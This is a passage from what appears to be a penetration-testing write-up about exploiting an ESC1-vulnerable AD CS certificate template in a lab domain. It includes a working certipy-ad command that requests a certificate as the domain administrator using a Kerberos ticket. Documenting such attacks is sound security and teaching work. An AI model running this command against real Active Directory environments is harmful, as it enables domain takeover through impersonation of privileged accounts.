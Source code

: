 ![Certipy Vulnerable Template Detail](assets/img/posts/20250325/Certipy-Vulnerable-Template-Detail.png)

Certipy quickly discovered that the `ESC1VulnerableTemplate` could be exploited.

#### Step 4: Requesting a Certificate <a id="step-4-requesting-a-certificate"></a>

With the vulnerable template identified, I submitted a certificate request for user `administrator@domain-b.local`. Certify simplified the process, using the TGT to interact with the AD CS:
```bash
certipy-ad req -k -target DC02.domain-b.local -ca "domain-b.DC02-CA" -template "ESC1VulnerableTemplate" -upn administrator
```
![Certipy Certificate Request](assets/img/posts/20250325/Certipy-Certificate-Request.png)
